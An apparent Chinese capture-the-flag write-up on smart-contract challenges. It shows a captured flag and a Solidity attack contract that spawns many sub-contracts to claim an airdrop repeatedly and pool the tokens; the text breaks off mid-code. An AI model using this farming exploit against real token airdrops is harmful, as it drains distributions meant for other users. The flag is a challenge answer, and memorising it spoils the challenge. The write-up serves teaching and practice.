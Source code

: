 ### 链上攻击：

![image-20241209230220994](https://bu.dusays.com/2024/12/09/67570782d5c8c.png)

![image-20241209230431487](https://bu.dusays.com/2024/12/09/67570782ea761.png)

flag:ssec2024{W3Lc0mE_70_e7H_cOn7R4C7_s3CUrITY|293625f8}



## 薅羊毛攻击

​	如题，学习一下语法多开几个账户薅羊毛即可。



​	攻击思路如下：

1. 部署 `AttackAirDrop` 合约，传入目标合约地址
2. 调用 `attack()` 函数发起攻击
3. 攻击合约会自动完成以下流程：
   - 创建多个 `Collector` 合约
   - 每个 `Collector` 领取空投
   - 将代币汇总到攻击合约
   - 触发 `getFlag()`



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IAirDrop {
    function profit() external;
    function transfer(address to, uint256 amount) external returns (bool);
    function getFlag() external;
}

contract AttackAirDrop {
    IAirDrop public target;
    address public owner;
    
    constructor(address _target) {
        target = IAirDrop(_target);
        owner = msg.sender;
    }
    
    // 创建多个子合约并领取空投
    function attack() external {
        for(uint i = 0; i < 26; i++) {
            Collector collector = new Collector(address(target));
            collector.collect();
            collector.transferBack();
        }
        
        target.getFlag();
    }
    
    function onERC20Received(uint256 amount) external {
        target.transfer(owner, amount);
    }
}

// 用于领取空投的子合约
contract Collector {
    IAirDrop public targetAirdrop;
    address public attackContract;
```